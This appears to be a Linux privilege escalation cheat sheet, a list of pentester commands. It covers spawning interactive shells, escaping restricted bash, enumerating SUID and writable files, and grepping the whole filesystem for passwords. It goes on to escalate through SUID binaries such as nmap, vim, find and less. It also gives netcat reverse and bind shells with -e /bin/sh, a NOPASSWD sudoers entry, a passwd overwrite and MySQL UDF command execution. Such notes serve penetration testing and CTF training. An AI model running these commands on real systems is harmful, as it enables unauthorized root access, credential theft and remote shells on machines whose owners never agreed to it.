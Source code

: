 # Linux privilege escalation
### Spawn Interactive Shell and set env  

python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  

### Restricted bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  

### Check environment 
Check any restricitions on any folders  
mount -l        >> any no exec or no suid?  

Check any unmounted drives  
cat /etc/fstab  

### SUID
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.  
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.  
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.  

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin < quicker  

-find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  

find / perm /u=s -user "User name that you are looking for" 2>/dev/null  

### Writable file and nobody files  
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files  
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files  

### Writable by current user  
find / perm /u=w -user `whoami` 2>/dev/null  
find / -perm /u+w,g+w -f -user `whoami` 2>/dev/null  
find / -perm /u+w -user `whoami` 2>/dev/nul  

### Any script files that we can modify?  
find / -writable -type f -name "*.py" 2>/dev/null     #find all python file that can be write by us  

ls -aRl / | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone  
ls -aRl / | awk '$1 ~ /^..w/' 2>/dev/null       # Owner  
ls -aRl / | awk '$1 ~ /^.....w/' 2>/dev/null    # Group  
ls -aRl / | awk '$1 ~ /w.$/' 2>/dev/null        # Other  

find / -readable -type f 2>/dev/null               # Anyone  
find / -readable -type f -maxdepth 1 2>/dev/null   # Anyone  

### Any service running by root?  
ps aux|grep "root"  

/usr/bin/journalctl (Which is normally not readable by a user) << cron job?  

### Find password  
grep -rnw '/' -ie 'pass' --color=always  
grep -rnw '/' -ie 'DB_PASS' --color=always  
grep -rnw '/' -ie 'DB_PASSWORD' --color=always  
grep -rnw '/' -ie 'DB_USER' --color=always  

# Exploit Time
## SUID
#### Is suid bit set on these applications?

Nmap  
    nmap -V     <Nmap version 2.02 - 5.21 had an interactive mode  
    nmap --interactive  
    nmap> !sh  
    
Vim  
    Modify system file, e.g. passwd?  
    
    vim.tiny  
    - Press ESC key  
    :set shell=/bin/sh  
    :shell  
    
find  
    touch pentestlab  
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;  
    
Bash  
    bash -p      
            
More  
    
Less  
    less /etc/passwd  
    !/bin/sh  

Nano  
    Can you modify system file?  
    Modify /etc/suoders  
    \<user> ALL=(ALL) NOPASSWD:ALL  
    
cp  
    Use cp to overwrite passwd with a new password  
    
### Is there a custom suid application?  
How can this application be run?  
Can be modify the path variable so that it will execute something else  

## NFS priv esc
https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

## Linux capability
find / -type f -print0 2>/dev/null | xargs -0 getcap 2>/dev/null
getcap -r /

google that capability on how it can help us get root

## Mysql run by root
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library
https://www.exploit-db.com/exploits/1518/

You can also try
select sys_exec('echo test>/tmp/test.txt');
select sys_eval('echo test>/tmp/test.txt');

